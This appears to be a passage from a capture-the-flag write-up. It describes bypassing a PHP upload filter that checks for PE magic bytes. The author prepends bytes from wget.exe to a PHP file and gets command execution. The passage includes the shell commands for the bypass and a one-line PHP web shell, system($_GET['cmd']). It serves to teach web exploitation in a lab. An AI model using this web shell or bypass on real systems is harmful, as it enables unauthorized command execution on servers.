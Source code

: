 Looking in to the upload.php we can see it is checking magic bytes of the file if it is starting with 4d5a or Mz which are magic bytes of PE like (wget.exe etc)

![site](./ctf/ctf-2/8.png)

### www-data SHell
Using the Following trick To bypass the functionality

```
(root㉿kali)-[/home/kali/pg/ctf-2] --> head -c 50 wget.exe > mbytes

(root㉿kali)-[/home/kali/pg/ctf-2] --> cat mbytes hello.php > shell.php

# shell.php 

<?php system($_GET["cmd"]) ?>

``` 
Now looking in to our php webshell we can see it starts with the magic bytes of PE file 4d5a

![site](./ctf/ctf-2/9.png)

Uploading the file and running it we get the command execution

![site](./ctf/ctf-2/10.png)
